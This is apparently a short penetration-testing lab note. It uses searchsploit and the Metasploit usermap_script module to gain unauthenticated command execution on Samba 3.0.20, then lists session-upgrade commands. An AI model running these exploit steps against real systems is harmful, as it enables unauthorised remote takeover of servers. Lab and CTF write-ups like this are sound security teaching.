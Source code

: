 ```bash
searchsploit samba 3.0.20
```

```bash
# In the MSFconsole
search samba 3.0.20
use exploit/multi/samba/usermap_script
info
# Description:
#   This module exploits a command execution vulnerability in Samba 
#   versions 3.0.20 through 3.0.25rc3 when using the non-default 
#   "username map script" configuration option. By specifying a username 
#   containing shell meta characters, attackers can execute arbitrary 
#   commands. No authentication is needed to exploit this vulnerability 
#   since this option is used to map usernames prior to authentication!
run
```

![](assets/image-20230424152549355.png)

```bash
# CTRL+Z to background
sessions
sessions -u 4
sessions 6
```
